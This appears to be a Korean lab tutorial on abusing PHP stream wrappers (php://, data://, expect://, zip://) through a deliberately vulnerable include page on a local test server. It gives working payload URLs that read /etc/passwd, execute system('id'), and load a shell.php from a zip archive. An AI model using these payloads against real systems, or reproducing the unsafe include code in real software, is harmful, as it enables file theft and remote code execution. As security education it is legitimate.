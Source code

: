 # PHP wrapper

| wrapper   | description   |
| :---      | :---:         |
| php://    | 다양항 I/O 스트림 래퍼 |
| zlib://   | 압축 스트림 래퍼 |
| expect:// | PTY를 통해 프로세스의 stdio, stdout, stderr에 대한 액세스 제공 |

https://www.php.net/manual/en/wrappers.expect.php
https://www.php.net/manual/en/wrappers.php

# **INDEX**

**1. [php://](#php//)**

# **환경 구성**

실행 환경

| Type          | Version                   |
| :---          | :---                      |
| OS            | Ubuntu 20.04.3 LTS        |
| Architecture  | x86-64                    |
| IP            | 192.168.0.58              |
| php           | 7.4                       |
| apache2       | 2.4.41-4ubuntu3.10        |

apache와 php를 설치하자.

```sh
root@ubuntu:~# apt -y install apache2 php
```

php wrapper에 대한 공격에 취약한 페이지(index.php)를 만들자.

```php
<?php
    if (empty($_GET['page'])) echo 'PHP wrapper';
    else include $_GET['page'];
?>
```

# **php//**

http://192.168.0.58/index.php?page=php://filter/convert.base64-encode/resource=/etc/passwd
http://192.168.0.58/index.php?page=php://filter/string.rot13/resource=/etc/passwd


```sh
root@ubuntu:~# vi /etc/php/7.4/apache2/php.ini
```
```ini
allow_url_include = On
```

http://192.168.0.58/index.php?page=data://text/plain,<?php system('id');?>
http://192.168.0.58/index.php?page=data://text/plain;base64,PD9waHAgc3lzdGVtKCdpZCcpOyA/Pg==


```sh
root@ubuntu:~# apt -y install php-dev php-pear tcl tcl-tclreadline tcl-dev tcl-expect-dev expect expect-dev tk tk-dev
root@ubuntu:~# pecl install expect
```

```sh
root@ubuntu:~# vi /etc/php/7.4/apache2/php.ini
root@ubuntu:~# vi /etc/php/7.4/cli/php.ini
```
```ini
extension=expect.so
```

http://192.168.0.58/index.php?page=expect://id

```sh
root@ubuntu:~# apt -y install php-zip
```

apache2의 계정(www-data)이 압축을 풀 디렉토리의 권한을 가지고 있어야함

http://192.168.0.58/index.php?page=zip://shell.zip%23shell.php
